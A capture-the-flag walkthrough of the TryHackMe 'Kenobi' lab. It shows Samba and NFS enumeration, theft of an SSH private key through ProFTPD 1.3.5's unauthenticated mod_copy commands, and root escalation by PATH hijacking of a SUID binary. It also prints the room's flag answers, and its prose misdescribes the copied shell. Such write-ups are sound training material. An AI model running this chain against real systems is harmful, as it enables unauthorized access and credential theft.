 ```yaml
---
description: Walkthrough on exploiting a Linux machine
---
```


# Kenobi

{% embed url="https://tryhackme.com/room/kenobi" %}
https://tryhackme.com/room/kenobi
{% endembed %}

## Task 1 Deploy the vulnerable machine

#### **Scan the machine with nmap, how many ports are open?**

```bash
sudo nmap 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-07-46.png>)

{% hint style="success" %}
`7`
{% endhint %}

## Task 2 Enumerating Samba for shares

#### Using the nmap command above, how many shares have been found?

```bash
nmap -n -p 445 --script smb-enum-shares,smb-enum-users 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-37-28.png>)

{% hint style="success" %}
`3`
{% endhint %}

#### Once you're connected, list the files on the share. What is the file can you see?

```bash
smbclient //10.10.253.108/anonymous
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-20-02.png>)

{% hint style="success" %}
`log.txt`
{% endhint %}



#### Open the file on the share. There is a few interesting things found.

* Information generated for Kenobi when generating an SSH key for the user
* Information about the ProFTPD server.

#### **What port is FTP running on?**

```bash
smbget -R smb://10.10.253.108/anonymous
sed -n '23,33p' log.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-25-27.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-52-38.png>)

{% hint style="success" %}
`21`
{% endhint %}

#### What mount can we see?

```bash
sudo nmap -p 111 --script nfs-ls,nfs-statfs,nfs-showmount 10.10.253.108
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 18-56-47.png>)

{% hint style="success" %}
`/var`
{% endhint %}

## Task 3 Gain initial access with ProFtpd

#### Lets get the version of ProFtpd. What is the version?

```bash
nc -nv 10.10.253.108 21
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-04-59.png>)

{% hint style="success" %}
`1.3.5`
{% endhint %}

#### We can use searchsploit to find exploits for a particular software version.&#x20;

#### How many exploits are there for the ProFTPd running?

```bash
searchsploit proftpd 1.3.5
```

![](<../../.gitbook/assets/Screenshot from 2022-04-20 06-06-55.png>)

{% hint style="success" %}
`4`
{% endhint %}

#### You should have found an exploit from ProFtpd's [mod\_copy module](http://www.proftpd.org/docs/contrib/mod\_copy.html).&#x20;

#### The mod\_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

#### We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

```bash
sed -n '50,52p' log.txt
cat log.txt | head -21
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-16-29.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-17-51.png>)

#### We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

#### We knew that the /var directory was a mount we could see. So we've now moved Kenobi's private key to the /var/tmp directory.

```bash
nc -nv 10.10.253.108 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-26-42.png>)

#### Lets mount the /var/tmp directory to our machine. What is Kenobi's user flag?

```bash
sudo mkdir -p /mnt/kenobi
sudo mount -o tcp 10.10.253.108:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
chmod 400 id_rsa
ssh -i id_rsa kenobi@10.10.253.108
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-40-39.png>)

{% hint style="success" %}
`d0b0f3f53b6caa532a83915e19224899`
{% endhint %}

## Task 4 Privilege Escalation with Path Variable Manipulation

#### SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

#### What file looks particularly out of the ordinary?

```
wget http://10.9.101.193/suid3num.py
python suid3num.py
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-51-55.png>)

{% hint style="success" %}
`/usr/bin/menu`
{% endhint %}

#### **Run the binary, how many options appear?**

```
menu
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 19-50-29.png>)

{% hint style="success" %}
`3`
{% endhint %}

#### As this file runs as the root users privileges, we can manipulate our path gain a root shell.

#### Strings is a command on Linux that looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

```
strings /usr/bin/menu | sed -n '23,25p'
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 20-08-58.png>)

#### We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /bin/sh, as well as this file being run as root it runs our shell as root!

#### **What is the root flag (/root/root.txt)?**

```
cp /bin/bash /tmp/ifconfig
chmod 777 /tmp/ifconfig
PATH=/tmp:$PATH menu
3
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-25 20-03-29.png>)

{% hint style="success" %}
`177b3cd8562289f37382721c28381f02`
{% endhint %}
